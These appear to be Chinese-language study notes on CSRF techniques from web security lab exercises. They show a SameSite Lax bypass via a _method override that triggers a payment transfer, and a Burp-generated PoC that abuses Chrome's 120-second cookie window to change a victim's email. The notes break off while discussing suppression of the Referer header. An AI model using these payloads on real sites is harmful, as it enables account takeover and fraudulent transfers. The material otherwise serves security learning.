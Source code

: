 XSS的内容是CSRF playload



LAX

1. 通过&_method=POST添加到GET请求中，某些框架会转化为POST方式请求 LAX

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form> 待思考如何利用
不如这个，这个好
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000&_method=POST';
</script>
```

2. 谷歌浏览器对于使用单点登录的站点，对于没有显式指定session cookie的Samesite情况的，为避免单点登录的失败，浏览器会在一开始的120s内允许跨站发送POST请求，我们可以先构造一个原有网站的新请求来更新cookie,然后发起c s r f攻击。

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ac8005604f1a2b483e4281a003a006a.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="d1kkkk1afs&#64;das&#46;cdsa" />
      <input type="submit" value="Submit request" />
    </form>
<script>
    window.onclick = () => {
        window.open('https://0ac8005604f1a2b483e4281a003a006a.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);
    }

    function changeEmail(){
        document.forms[0].submit();
    }
    </script>
  </body>
</html>

```





Referer

1. 在html界面中加入以下字段，可以不发送http referer (origin是发起的域名，referer还包括了路径)
